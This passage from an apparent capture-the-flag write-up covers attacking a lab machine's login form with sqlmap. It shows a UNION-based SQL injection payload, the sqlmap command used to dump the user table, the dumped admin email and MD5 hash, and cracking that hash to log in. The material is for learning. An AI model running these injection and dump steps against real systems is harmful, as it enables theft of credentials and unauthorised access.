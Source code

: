 ``` sql
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=test@gmail.com' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a787071,0x4e5a62544f6d427a58487362544646664f4e766361584b755948474e6a63426d494f474b744c736d,0x716b707171)-- -&password=test
---
[21:45:25] [INFO] testing MySQL
[21:45:26] [INFO] confirming MySQL
[21:45:26] [INFO] the back-end DBMS is MySQL
[21:45:26] [INFO] fetching banner
[21:45:27] [INFO] executing MySQL comment injection fingerprint
back-end DBMS: active fingerprint: MySQL >= 8.0.0
               comment injection fingerprint: MySQL 8.0.27
banner: '8.0.27'
[21:45:27] [INFO] fetched data logged to text files under '/home/sohee/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 21:45:27 /2023-03-22/

```
The `sqlmap` attack was successful. To then access the database, I passed the `--dump` flag to the same command like so: 
``` shell
sqlmap -u 'http://goodgames.htb/login' --data="email=test@gmail.com&password=test" --level 5 --risk 3 -f --banner │ --ignore-code 401 --dump
```
``` sql
Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```
Creds <3 But I noticed the password was hashed, although it was just a simple MD5 hash. One could pass this hash into a hash cracker like CyberChef and used the "Magic" option to discover the type of hash, but I was able to recognize it and passed it into Crackstation.

![]({{ image_path }}{{ page.name }}/crackstation.png)

## Initial Access
Using these creds, I logged in to the login page I attacked. After clicking around the new portal, I noticed that one of the links (the gear icon) took me to a new vhost: `internal-administration.goodgames.htb`.

![]({{ image_path }}{{ page.name }}/gearicon.png) 

![]({{ image_path }}{{ page.name }}/vhost.png)
